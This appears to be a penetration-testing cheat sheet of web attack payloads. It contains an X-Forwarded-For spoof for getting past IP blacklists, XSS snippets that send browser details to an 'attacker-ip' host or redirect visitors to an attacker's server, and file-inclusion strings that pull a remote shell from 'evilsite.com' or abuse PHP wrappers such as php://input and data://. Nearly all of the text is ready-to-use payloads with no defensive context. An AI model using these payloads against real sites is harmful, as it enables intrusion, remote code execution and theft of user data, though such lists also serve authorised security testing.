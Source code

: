 ## bypass ip blacklist / whitelist
- `X-Forwarded-For: $allowed-ip`

---

# xss payloads
- service: http
- tactics: inital_access

## xss enumeration payloads
- `'">><script>new Image().src="attacker-ip:81/bogus.php?output="+navigator.appName;</script>`
- `'">><script>new Image().src="attacker-ip:81/bogus.php?output="+navigator.appVersion;</script>`
- `'">><script>new Image().src="attacker-ip:81/bogus.php?output="+navigator.platform;</script>`

## xss redirect to own webserver
- `'">><script>document.location="http://attacker-ip:81";</script>`
- `'">><script>window.location="http://attacker-ip:81";</script>`

---

# local file inclusion / remote file inclusion
- service: http
- service: php
- tactics: inital_access

## including remote code
- `?file=[http|https|ftp]://evilsite.com/shell.txt`

## using php stream php://input 
- `?file=php://input`  

## using zip wrapper zip://input 
- `?file=zip://path/file.zip%23rce.php`

## specify your payload in the post parameters
### using php stream php://filter
- `?file=php://filter/convert.base64-encode/resource=index.php`

### using data uri
- `?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=`

### using xss
- `?file=http://127.0.0.1/path/xss.php?xss=phpcode`
